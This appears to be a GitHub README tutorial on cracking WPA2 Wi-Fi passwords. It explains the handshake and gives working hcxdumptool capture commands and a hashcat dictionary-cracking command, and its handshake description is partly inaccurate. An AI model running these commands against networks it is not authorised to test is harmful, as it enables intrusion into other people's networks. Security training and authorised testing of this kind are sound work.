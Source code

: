 # WPA2-Attack-using-Hashcat-and-Hcxdumptool
# Introduction
WPA2 is the most used security protocol for securing wireless networks. Even with its robust encryption and security mechanisms, WPA2 is vulnerable to attacks, especially to those involving the handshake process. This report primarily focuses on two key tools used to attack the WPA2 secured network—Hashcat and Hcxdumptool—by exploiting the vulnerabilities in the handshake procedure. These tools enable threat actors to capture and crack WPA2 passwords by applying various attack strategies such as dictionary and brute-force attacks.

## Understanding WPA2 Security
WPA2 utilizes Advanced Encryption Standard (AES) for encryption and Pre-Shared Key (PSK) for authentication. The WPA2 handshake is essentially a four-way process that builds a secure connection between the client and the access point, referred to as the supplicant and authenticator, respectively. However, the strength of the WPA2 encryption relies deeply on the strength of the pre-shared key.

### WPA2 Four-Way Handshake Process
1. **The client sends a request to the access point (AP):** This initiates the handshake.
2. **The access point responds with its nonce:** A random value and message to start the handshake process.
3. **The client creates its own nonce and derives a session key:** Using the AP's nonce.
4. **Both client and AP share key information messages:** This confirms the establishment of a secure connection.

At this stage, the handshake is completed, and the keys for encryption are exchanged. Attackers try to capture this handshake to crack the WPA2 password using brute-force or dictionary attacks.

## Tools for WPA2 Attacks

### Hashcat
Hashcat is a powerful password cracking tool that can be used for a variety of hashing algorithms, including those used in WPA2. It utilizes the GPU (Graphics Processing Unit) to accelerate the cracking process, allowing for efficient brute-forcing or dictionary-based cracking of passwords.

#### WPA2 Handshake Process in Hashcat
When an attacker captures the WPA2 handshake, it contains the hash of the WPA2 Pre-Shared Key (PSK) obtained from the passphrase. This hash can be cracked using Hashcat to retrieve the original passphrase.

#### Common Attacks in Hashcat:
- **Brute-Force Attack:** Tries all possible combinations of characters until it cracks the password.
- **Dictionary Attack:** Tests all possible password combinations from a wordlist, matching the hash of the words in the list with the captured hash.
- **Rule-Based Attack:** Applies predefined rules to a dictionary by adding prefixes, suffixes, or replacing characters to create an extensive password list.

### Hcxdumptool
Hcxdumptool is a tool used for capturing WPA2 handshakes from wireless networks. As part of the hcxtools suite, it is designed to attack both WPA2 and WPA3 networks.

#### Key Features of Hcxdumptool:
- **Capture WPA2 Handshakes:** Captures the four-way handshake while the client is attempting to connect with the access point.
- **De-Authentication Attacks:** Sends de-authentication packets to force clients to reconnect to the access point, initiating a handshake capture.
- **Output Formats:** Saves the captured handshake in various formats, such as `.pcapng`, which can be converted for use in Hashcat.
### Network Diagram
  ![image](https://github.com/user-attachments/assets/a699ef07-bd25-4ec1-a0e7-a55f4174e5aa)

### WPA2 Attack and Cracking Script
#### This script captures and cracks WPA2 Wi-Fi traffic using hcxdumptool and Hashcat.

#### Install Required Packages
```bash

sudo apt-get update
sudo apt-get install -y libcurl4-openssl-dev libssl-dev pkg-config libpcap-dev
```
#### Clone the hcxdumptool Repository and Navigate to It
```bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
```
#### Stop Network Management Services
```bash
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```
#### Capture Wi-Fi Traffic
```bash
sudo hcxdumptool -i wlan0 -w dumpfile.pcapng -F --rds=1
```
#### Restart Network Management Services After Capture
```bash
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```
#### Convert Captured Traffic to Hash File
```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```
#### Scan for MAC Addresses
```bash
sudo hcxdumptool -i wlan0 --rcascan=a
```
#### Crack Wi-Fi Hashes Using Hashcat
```bash
hashcat -m 22000 hash.hc22000 rockyou.txt --show
```
